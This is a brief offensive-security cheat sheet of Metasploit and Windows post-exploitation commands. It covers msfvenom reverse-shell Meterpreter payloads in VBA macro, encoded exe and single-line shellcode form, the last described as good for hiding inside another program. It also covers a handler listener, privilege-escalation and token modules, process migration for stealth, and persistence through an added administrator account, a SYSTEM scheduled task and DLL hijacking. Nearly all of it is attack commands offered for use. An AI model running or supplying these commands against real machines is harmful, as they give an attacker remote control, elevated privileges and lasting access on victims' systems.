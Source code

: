 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop dllsvc & sc start dllsvc

command for compile on kali linux:

    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe
    net users
    runas /user:whichoneyouwannause